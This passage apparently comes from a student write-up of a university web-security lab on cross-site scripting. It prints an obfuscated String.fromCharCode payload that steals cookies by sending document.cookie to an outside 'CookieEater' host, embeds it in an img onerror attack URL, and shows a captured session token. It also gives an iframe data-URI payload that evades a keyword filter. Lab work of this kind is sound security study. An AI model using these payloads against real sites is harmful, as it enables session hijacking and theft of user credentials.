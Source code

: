 and we get the string is:

```
[118, 97, 114, 32, 105, 109, 103, 61, 110, 101, 119, 32, 73, 109, 97, 103, 101, 40, 41, 59, 105, 109, 103, 46, 115, 114, 99, 61, 39, 104, 116, 116, 112, 115, 58, 47, 47, 104, 111, 109, 101, 115, 46, 99, 115, 46, 119, 97, 115, 104, 105, 110, 103, 116, 111, 110, 46, 101, 100, 117, 47, 126, 122, 101, 116, 105, 97, 99, 47, 67, 111, 111, 107, 105, 101, 69, 97, 116, 101, 114, 46, 112, 104, 112, 63, 99, 111, 111, 107, 105, 101, 61, 39, 43, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 59]
```

Hence, the image should be:

```
<img src=$ onerror="eval(String.fromCharCode(118, 97, 114, 32, 105, 109, 103, 61, 110, 101, 119, 32, 73, 109, 97, 103, 101, 40, 41, 59, 105, 109, 103, 46, 115, 114, 99, 61, 39, 104, 116, 116, 112, 115, 58, 47, 47, 104, 111, 109, 101, 115, 46, 99, 115, 46, 119, 97, 115, 104, 105, 110, 103, 116, 111, 110, 46, 101, 100, 117, 47, 126, 122, 101, 116, 105, 97, 99, 47, 67, 111, 111, 107, 105, 101, 69, 97, 116, 101, 114, 46, 112, 104, 112, 63, 99, 111, 111, 107, 105, 101, 61, 39, 43, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 59))"/>
```

Hence, the url we want Meow server to visit is:

```
http://codered.cs.washington.edu/lab2/pmc/notsosimple.php?url=<img src=$ onerror="eval(String.fromCharCode(118, 97, 114, 32, 105, 109, 103, 61, 110, 101, 119, 32, 73, 109, 97, 103, 101, 40, 41, 59, 105, 109, 103, 46, 115, 114, 99, 61, 39, 104, 116, 116, 112, 115, 58, 47, 47, 104, 111, 109, 101, 115, 46, 99, 115, 46, 119, 97, 115, 104, 105, 110, 103, 116, 111, 110, 46, 101, 100, 117, 47, 126, 122, 101, 116, 105, 97, 99, 47, 67, 111, 111, 107, 105, 101, 69, 97, 116, 101, 114, 46, 112, 104, 112, 63, 99, 111, 111, 107, 105, 101, 61, 39, 43, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 59))"/>
```

The authenticate code is `authenticated=45bbc3430fdef274e307bfab45b75a28e291f9db`.

Done.

### Problem 3

Notice that in this problem, we have the following substitutions:

```
script -> scriptorium
style -> stylet
\space -> #[space]
on -> onion
```

To circumvent the substitution of space, we use "/".

The tag we would try to insert is `iframe` , which allows us to insert html into the `src` attriubte.

A simple way to trigger the event would be:

```
<iframe/src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
```
